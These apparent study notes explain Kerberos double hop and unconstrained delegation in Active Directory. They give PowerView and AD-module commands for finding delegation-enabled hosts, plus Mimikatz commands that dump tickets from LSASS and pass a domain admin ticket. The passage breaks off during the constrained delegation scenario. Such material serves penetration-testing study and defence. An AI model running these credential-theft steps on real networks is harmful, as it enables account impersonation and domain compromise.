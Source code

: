 #### What is Kerberos Double Hop Problem?
Kerberos Double Hop is a term used to describe our method of **maintaining the client's Kerberos authentication credentials over two or more connections**. In this fashion we can retain the user's credentials and act on behalf of the user in further connections to other servers.
**Problem is that Server or Web server is not allowed to deligate the ticket to other server or cant retain the user credentials.**

## General/Basic or Unconstrained Delegation
Unconstrained means without any limit i.e. allows ***a first hop server*** with the option “**_Trust This user/computer for delegation to any service_**” enabled to ***impersonate ANY*** user authenticates to it and request access to ***ANY service*.**

#### How this works?
When unconstrained delegation is enabled, The DC places user's TGT inside TGS(Step 4 in diagram). When presented to the server with unconstrained delegation. the ***TGT is extracted from TGS and stored in LSASS***. This way the server can reuse the user's TGT to access any other resource as the user.

#### How can we abuse it?
As TGT is stored in LSASS of Web Server, So we can extract all the TGT of users present on unconstrained delegation enabled server.

- Discover domain computers which have unconstrained delegation enabled using PowerView:
	`Get-NetComputer -UnConstrained`
- Using ActiveDirectory module:
	```bash
	Get-ADComputer -Filter {TrustedForDelegation -eq $True}
	Get-ADUser -Filter {TrustedForDelegation -eq $True}
	```
![](https://i.imgur.com/pg2QrgX.png)

**Compromise the server where Unconstrained delegation is enabled.**
- Check if any DA token is available:
	`Invoke-Mimikatz -Command '"sekurlsa::tickets"'`
	*This command extracts all the hashes from lsass proccess and saves them to the disk.*
- The DA token can be reused:
	`Invoke-Mimikatz -Command '"kerberos::ptt <Ticket_Location>"'`



## Constrained Delegation
Contrained means having a limit or boundary i.e. allows ***a first hop server*** to request access only to specified services on specified computers. If the user is not using Kerberos authentication to authenticate to first hop, *Windows Offers protocol transition to transsition the request to Kerberos.*

> Both types of delegations, a mechanism is required to impersonate the incoming user and authenticate to the second hop server.

**Scenario:** A user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user's authorization.
